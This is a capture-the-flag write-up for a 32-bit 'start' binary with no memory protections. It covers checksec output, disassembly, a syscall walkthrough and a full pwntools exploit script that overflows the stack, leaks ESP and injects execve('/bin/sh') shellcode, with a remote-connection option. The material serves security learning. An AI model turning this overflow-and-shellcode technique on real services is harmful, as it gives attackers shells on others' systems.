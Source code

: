 ## Analyze
Start by analyzing the binary

file
```bash
./start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
checksec
```bash
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```
Points got :-
1. 32 bit binary
2. Intel 80386 architecture
3. No protection at all
Next we try running the code
```bash
└─$ ./start
Let's start the CTF:aaaaaaaaa
```
```
└─$ ./start 
Let's start the CTF:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault
```
Buffer overflow occur
Lets check it in gdb

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048060  _start
0x0804809d  _exit
0x080490a3  __bss_start
0x080490a3  _edata
0x080490a4  _end
pwndbg> 
```
seems like not a ret2win chal
so we check for every functions, and only function \_start we should analyze
from gdb :-
```bash
pwndbg> disass _start
Dump of assembler code for function _start:
   0x08048060 <+0>:	push   esp
   0x08048061 <+1>:	push   0x804809d
   0x08048066 <+6>:	xor    eax,eax
   0x08048068 <+8>:	xor    ebx,ebx
   0x0804806a <+10>:	xor    ecx,ecx
   0x0804806c <+12>:	xor    edx,edx
   0x0804806e <+14>:	push   0x3a465443
   0x08048073 <+19>:	push   0x20656874
   0x08048078 <+24>:	push   0x20747261
   0x0804807d <+29>:	push   0x74732073
   0x08048082 <+34>:	push   0x2774654c
   0x08048087 <+39>:	mov    ecx,esp
   0x08048089 <+41>:	mov    dl,0x14
   0x0804808b <+43>:	mov    bl,0x1
   0x0804808d <+45>:	mov    al,0x4
   0x0804808f <+47>:	int    0x80
   0x08048091 <+49>:	xor    ebx,ebx
   0x08048093 <+51>:	mov    dl,0x3c
   0x08048095 <+53>:	mov    al,0x3
   0x08048097 <+55>:	int    0x80
   0x08048099 <+57>:	add    esp,0x14
   0x0804809c <+60>:	ret
End of assembler dump.
```
from ghidra :-
```ghidra
void processEntry entry(void)

{
    code *pcVar1;
    
    pcVar1 = (code *)swi(0x80);
    (*pcVar1)(0x74732073,0x20747261,0x20656874,0x3a465443,_exit,&stack0x00000000);
    pcVar1 = (code *)swi(0x80);
    (*pcVar1)();
    return;
}
```
the code will
	Line 01: Stores the esp value at this point on the stack.
	Line 02: Stores the start address of \_exit.
	Lines 03-06: Set eax, ebx, ecx, edx to 0x00.
	Lines 07-11: Store the string "Let's start the CTF:" on the stack
	Line 12: Store the current esp value in ecx
	Line 13: Store 0x14 in edx Line
	14: Store in ebx Store 0x01
	Line 15: Store 0x04 in eax
	Line 16: Execute call instruction. What to do and how to do it is determined by the values ​​in the registers. Here,
	write 20 bytes (edx is 0x14 = 20) to the standard output (ebx is 0x01) and a character string with ecx (same value as esp from line 12) as the starting address (eax is 0x04). In other words, write "Let's start CTF:" to standard output.
	Line 17: Set ebx to 0x00.
	Line 18: Store 0x3c in edx.
	Line 19: Store 0x03 in eax.
	Line 20: Execute the call instruction. Here, it means reading 60 bytes (edx is 0x3c=60) from standard input (ebx is 0x00) (eax is 0x03).
	Line 21: Add 0x14 to esp.
	Line 22: ret

## Exploit

1. Overflow the file
2. Make it return to Line 12 where we will get the address of ESP
3. The file will ask us for input again
4. Overflow + ESP address + shellcode

exploit.py
```python 3
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './start'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
def leak_esp(r):
    address_1 = p32(0x08048087)           
    payload = flat('A'*20 , address_1)
    print(r.recvuntil('CTF:'))
    r.send(payload)
    esp = u32(r.recv()[:4])
    print("Address of ESP: ", hex(esp))
    return esp

io = start()



padding = 20
esp = leak_esp(io)
shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

payload = flat(
    b'\x90' * padding,
    esp+20,
    shellcode
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline( payload)

# Receive the flag
io.interactive()
```

### Better explanation here -> https://security.nekotricolor.com/entry/pwnable-tw-start-write-up